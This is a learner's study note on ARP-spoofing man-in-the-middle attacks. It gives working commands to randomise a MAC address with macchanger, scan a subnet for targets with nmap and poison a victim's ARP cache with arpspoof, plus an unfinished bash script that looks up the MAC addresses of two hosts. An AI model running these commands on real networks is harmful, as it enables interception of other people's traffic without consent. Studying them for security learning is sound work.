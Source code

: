 # TODO - Man in the Middle with ARP spoofing

Welcome again :D&#x20;

Im actually pleased of myself because Im explaining to me and Im actually understanding something LOL

## Recap

### change the MAC

```
sudo macchanger -r eth0 
```

### reverse DNS request to get all the hostname

and find the target

```
nmap -sL 192.168.1.0/24
```

### ARP spoofing

```
sudo arpspoof -i eth0 -t 192.168.1.115 -r 192.168.1.1 
```

Now we need not to arouse suspicion

## Packet redirect

As if we were switches we need to use MAC addresses to forward data at the data link layer (layer 2) of the OSI model. \
\
Some switches can also forward data at the network layer (layer 3) by additionally incorporating routing functionality. Such switches are commonly known as layer-3 switches or [multilayer switches](https://en.wikipedia.org/wiki/Multilayer\_switch).

A script could be useful:

```
./basic_mitm 192.168.1.65 192.168.1.1
```

```bash
#!/bin/bash

echo "$1"
echo "$2"

mac1=$(sudo nmap -nsP "$1" | grep MAC | awk -F\  ' { print $3 } ' )
mac2=$(sudo nmap -nsP "$2" | grep MAC | awk -F\  ' { print $3 } ' )

echo "$mac1"
echo "$mac2"
```

{% embed url="https://linux.die.net/man/8/iptables" %}

{% hint style="info" %}
iptables command has a "mac" section that could be useful
{% endhint %}

## Sources

{% embed url="https://www.cyberciti.biz/tips/iptables-mac-address-filtering.html" %}

{% embed url="https://explainshell.com/explain?cmd=nmap+-sP" %}
